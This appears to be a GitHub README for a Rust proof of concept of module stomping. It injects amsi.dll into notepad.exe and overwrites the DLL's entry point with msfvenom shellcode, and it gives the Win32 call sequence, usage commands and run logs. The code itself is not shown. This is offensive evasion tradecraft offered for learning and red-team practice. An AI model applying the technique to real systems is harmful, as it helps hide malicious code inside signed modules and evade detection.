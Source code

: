 # Module Stomping / Module Overloading / DLL Hollowing

A basic/simple PoC in Rust made for fun, practice, and learning. Check out my Manual Mapper in Rust: https://github.com/aditya-dom/mmapper-rs or Shellcode Reflective DLL Injection in Rust: https://github.com/aditya-dom/srdi-rs for alternatives.

## Description

Module stomping injects a Microsoft-signed DLL (e.g amsi.dll) using a classic DLL Injection technique that uses as shown here: [Classic DLL Injection in Rust](https://github.com/aditya-dom/arsenal-rs/tree/main/dll_injector_classic-rs). It will then read the `AddressOfEntryPoint` of the injected DLL from the target process and overwrite the content with shellcode.

In this example we use the following steps to perfrom a classic DLL Injection of `amsi.dll` inside `notepad.exe` and then inject our shellcode inside `amsi.dll's` entry point:

* `OpenProcess` - Open a handle to the target process with `PROCESS_ALL_ACCESS`
* `VirtualAllocEx` - Allocate memory for `amsi.dll` full path
* `WriteProcessMemory` - Write the DLL path to the target process memory
* `GetModuleHandleA` - Get a handle to `kernel32.dll`
* `GetProcAddress` - Get the address of `LoadLibraryA`
* `CreateRemoteThread` - Create a thread in the target process

We can now inject our shellcode into the target process

* Get the module (amsi.dll) base address from the target process (notepad.exe) that we just injected
* `ReadProcessMemory` - To read the the DOS and NT headers to get the `AddressOfEntryPoint` of `asmi.dll` in the target process (notepad.exe)
* `WriteProcessMemory` - To overwrite the `AddressOfEntryPoint` content with our shellcode
* `CreateRemoteThread`- Create a thread to run the contents of our shellcode inside `amsi.dll` that is inside `notepad.exe` in this example.

Microsoft Signed DLL
```
PS C:\Users\aditya-dom\Documents\GitHub\arsenal-rs\module_stomping-rs\target\release> sigcheck C:\Windows\System32\amsi.dll

Sigcheck v2.90 - File version and signature viewer
Copyright (C) 2004-2022 Mark Russinovich
Sysinternals - www.sysinternals.com

c:\windows\system32\amsi.dll:
        Verified:       Signed
        Signing date:   1:41 PM 9/11/2022
        Publisher:      Microsoft Windows
        Company:        Microsoft Corporation
        Description:    Anti-Malware Scan Interface
        Product:        Microsoft« Windows« Operating System
        Prod version:   10.0.19041.2075
        File version:   10.0.19041.2075 (WinBuild.160101.0800)
        MachineType:    64-bit
```

Process Monitor's Load Image event shows that `amsi.dll` was loaded.

![Process Monitor](./procmon.png)

Process Explorer shows that `amsi.dll` was loaded too and we can see that our shellcode was executed from the `MessageBoxA` pop-up, which was generated by `msfvenom -p windows/x64/messagebox -f rust`

![Process Monitor](./injection.png)

We can look at `notepad.exe` threads that are running, which shows that thread `9616` with the start address of `Amsi!AmsiUacScan+0xabe0`.

![Process Monitor](./thread.png)


We can inspect this memory location in more detail with `Windbg`. The memory location resolves to `Amsi!DLLMainCRTStartup` and the bytes located in this memory location contains our shellcode.

![Process Monitor](./windbg.png)

## Usage

```
.\module_stomping-rs.exe <process> <full dll path> <dll name>
```

## Example

Build

```
cargo build --release
```

Enable logging for debugging

```
$env:RUST_LOG="debug"
```

Inject amsi.dll
```
PS C:\Users\aditya-dom\Documents\GitHub\arsenal-rs\module_stomping-rs\target\release> .\module_stomping-rs.exe notepad.exe C:\Windows\System32\amsi.dll amsi.dll

[2022-11-07T23:12:34Z INFO  module_stomping_rs] [+] Process: notepad.exe
[2022-11-07T23:12:34Z INFO  module_stomping_rs] [+] Path: C:\Windows\System32\amsi.dll
[2022-11-07T23:12:34Z INFO  module_stomping_rs] [+] Allocated Memory: 0x202d42c0000
[2022-11-07T23:12:34Z INFO  module_stomping_rs] [+] Kernel32 Address: 0x7ffa6a510000
[2022-11-07T23:12:34Z INFO  module_stomping_rs] [+] LoadLibraryA address: 0x7ffa6a5304f0
[2022-11-07T23:12:34Z INFO  module_stomping_rs] [+] C:\Windows\System32\amsi.dll DLL Injection Complete!
[2022-11-07T23:12:34Z INFO  module_stomping_rs] [+] Module Base: 0x7ffa5a6d0000
[2022-11-07T23:12:34Z INFO  module_stomping_rs] [+] Remote Buffer Length: 0x148
[2022-11-07T23:12:34Z INFO  module_stomping_rs] [+] Bytes Read: 328
[2022-11-07T23:12:34Z INFO  module_stomping_rs] [+] IMAGE_DOS_HEADER: 0x000002a5c4144b30
[2022-11-07T23:12:34Z INFO  module_stomping_rs] [+] IMAGE_NT_HEADERS: 0x000002a5c4144c30
[2022-11-07T23:12:34Z INFO  module_stomping_rs] [+] AddressOfEntryPoint: 0x7ffa5a6de820
PS C:\Users\memn0ps\Documents\GitHub\arsenal-rs\module_stomping-rs\target\release>
```

## Note

A more advanced version of this can be found here https://github.com/boku7/Ninja_UUID_Runner by Bobby Cooke ([@0xBoku](https://twitter.com/0xBoku)), which mixes up different process injection techniques for evasion.


## References and Credits

* https://www.ired.team/offensive-security/code-injection-process-injection/modulestomping-dll-hollowing-shellcode-injection
* https://thewover.github.io/Dynamic-Invoke/
* https://github.com/hasherezade/module_overloading
* https://www.forrest-orr.net/post/malicious-memory-artifacts-part-i-dll-hollowing
* https://williamknowles.io/living-dangerously-with-module-stomping-leveraging-code-coverage-analysis-for-injecting-into-legitimately-loaded-dlls/
* https://github.com/boku7/Ninja_UUID_Runner
* https://blog.f-secure.com/hiding-malicious-code-with-module-stomping/
